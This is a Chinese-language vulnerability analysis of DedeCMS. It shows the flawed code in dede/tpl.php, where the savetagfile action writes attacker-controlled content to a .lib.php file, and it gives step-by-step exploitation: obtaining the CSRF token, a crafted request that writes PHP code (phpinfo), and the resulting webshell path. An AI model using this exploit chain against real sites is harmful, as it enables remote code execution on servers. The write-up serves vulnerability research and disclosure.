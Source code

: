 ##### 漏洞详情

默认后台地址 `/dede/`，文件`dede/tpl.php`中的251到281行。


	csrf_check();
		#filename和前面正则的匹配情况
	    if(!preg_match("#^[a-z0-9_-]{1,}\.lib\.php$#i", $filename))
	    {
	        ShowMsg('文件名不合法，不允许进行操作！', '-1');
	        exit();
	    }
	    require_once(DEDEINC.'/oxwindow.class.php');
		#搜索filename中匹配`\.lib\.php$#i`的部分，以空格代替
	    $tagname = preg_replace("#\.lib\.php$#i", "", $filename);
		#去掉反斜号
	    $content = stripslashes($content);
		#拼接文件名
	    $truefile = DEDEINC.'/taglib/'.$filename;
		#写入内容
	    $fp = fopen($truefile, 'w');
	    fwrite($fp, $content);
	    fclose($fp);

replace处理之后赋值给变量 $tagname 。但是写入文件的时候并没有用到$tagname 。
那为什么有这个$tagname，拼接文件名的时候，应该是拼接`tagname`

利用

	1.由于dedecms全局变量注册的特性，所以这里的content变量和filename变量可控。

	2.可以看到将content直接写入到文件中导致可以getshell。但是这里的文件名经过正则表达式，所以必须要.lib.php结尾。

	3.这里还有一个csrf_check()函数，即请求中必须要带token参数。


##### 漏洞利用

1. 首先获取`token`。访问域名 + `/dede/tpl.php?action=upload`

	view-source:http://127.0.0.1:8000/DedeCMS/uploads/dede/tpl.php?action=upload

	d170f6bed3360da62d909d28a072c312



![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-3-8/56295937.jpg)

2.然后访问 

	域名 + /dede/tpl.php?filename=secnote.lib.php&action=savetagfile&content=%3C?php%20phpinfo();?%3E&token=[你的token值



![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-3-8/16267803.jpg)

shell 地址

	域名 + /include/taglib/secnote.lib.php
